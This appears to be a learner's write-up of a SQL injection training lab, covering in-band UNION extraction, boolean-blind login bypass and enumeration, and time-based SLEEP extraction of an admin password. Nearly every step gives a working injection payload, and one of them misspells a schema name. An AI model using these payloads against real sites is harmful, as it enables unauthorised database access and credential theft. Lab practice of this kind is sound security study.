 ## *Task 1*
>	- Structured Query Language
## *Task 2*
>	- DBMS
>	- Table
## *Task 3*
>	- SELECT
>	- UNION
>	- INSERT
## *Task 4*
>	- ;
## *In-Band SQLi*
>	- Using `'` to verify SQLi vulnerability.![](sqli-detected.png)
>	- Getting number of columns using `UNION SELECT NULL` and adding nulls till the there is no error.![](union-cols-1.png)
>	- ![](union-cols-2.png)
>	- Changing the id to a non existent article and then getting the database name using `UNION SELECT NULL,NULL,database()`.
>	- ![](db-name.png)
>	- Getting the table names using `UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.![](table-names.png)
>	- Get column names from staff_users table using `UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`.![](staff-col-names.png)
>	- Get usernames and passwords using `UNION SELECT NULL,NULL,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.![](staff-creds.png)
>	- Answer the question and get the flag.![](flag-1.png)
## *Blind SQLi*
>	- Using `' OR 1=1;--` in the password field to bypass the login.![](flag-2.png)
>	- Using `admin123' UNION SELECT NULL;--` to get the column names.![](bool-1.png)
>	- ![](bool-2.png)
>	- Using `' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--` to get the database name.![](bool-3.png)
>	- Change the characters and add more till a true occurs.![](bool-4.png)
>	- Keep adding characters till we get the entire name.![](bool-5.png)
>	- Now use the found name to enumerate the tables.
>	- Using `' UNION SELECT 1,2,3 FROM infromation_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'u%';--`.![](bool-6.png)
>	- Again keep adding characters till the table name is found.![](bool-7.png)
>	- Confirm the table name using `' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name = 'users';--`.![](bool-8.png)
>	- Now, enumerate the column names in the users table using `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%';--`.
>	- Column `id` is found.![](bool-9.png)
>	- Now remove that found column name `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%' AND column_name != 'id';--`.
>	- Column username is found.![](bool-10.png)
>	- Column password is found.![](bool-11.png)
>	- Now, enumerate the users table for the username admin using `' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--`.![](bool-12.png)
>	- Admin user is found.![](bool-13.png)
>	- Enumerating for his password using `' UNION SELECT 1,2,3 FROM users WHERE username = 'admin' AND password LIKE 'a%';--`.![](bool-14.png)
>	- Confirming the password.![](bool-15.png)
>	- Using the found credentials to get the flag.![](flag-3.png)
>	- Using `' UNION SELECT SLEEP(5);--` to get the count of columns by waiting for a delay if the count is correct.![](time-1.png)
>	- When using `' UNION SELECT SLEEP(5),2;--` the response is delayed, so the count is correct.![](time-2.png)
>	- Get database name using `' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'a%';--`.![](time-3.png)
>	- Adding more characters and using a different time just to make sure.![](time-4.png)
>	- ![](time-5.png)
>	- Confirming the database name using `' UNION SELECT SLEEP(6),2 WHERE database() = 'sqli_four';--`.![](time-6.png)
>	- Get tables using `' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'a%';--`.![](time-7.png)
>	- Table user found using `' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'users%';--`.![](time-8.png)
>	- Get columns using `' UNION SELECT SLEEP(6),2 FROM information_schema.columns WHERE table_name = 'users' AND column_name LIKE 'u%';--`.![](time-9.png)
>	- Column username found using `' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_name = 'users' AND column_name LIKE 'username%';--`.![](time-10.png)
>	- Column password found using `' UNION SELECT SLEEP(6),2 FROM information_schema.columns WHERE table_name = 'users' AND column_name != 'username' AND column_name LIKE 'password%';--`.![](time-11.png)
>	- Now, using `' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'admin%';--` to check for an admin account.![](time-12.png)
>	- Get the password of the admin account using `' UNION SELECT SLEEP(6),2 FROM users WHERE username = 'admin' AND password LIKE 'a%';--`.![](time-13.png)
>	- First character of the password is `4`.![](time-14.png)
>	- The password is found using `' UNION SELECT SLEEP(5),2 FROM users WHERE username = 'admin' AND password LIKE '4961';--`.![](time-15.png)
>	- Confirming the password using `' UNION SELECT SLEEP(6),2 FROM users WHERE username = 'admin' AND password = '4961';--`.![](time-16.png)
>	- Fourth flag is found after logging in with the found credentials.![](flag-4.png)
## *Task 9*
>	- DNS
## *Task 10*
>	- Prepared Statements
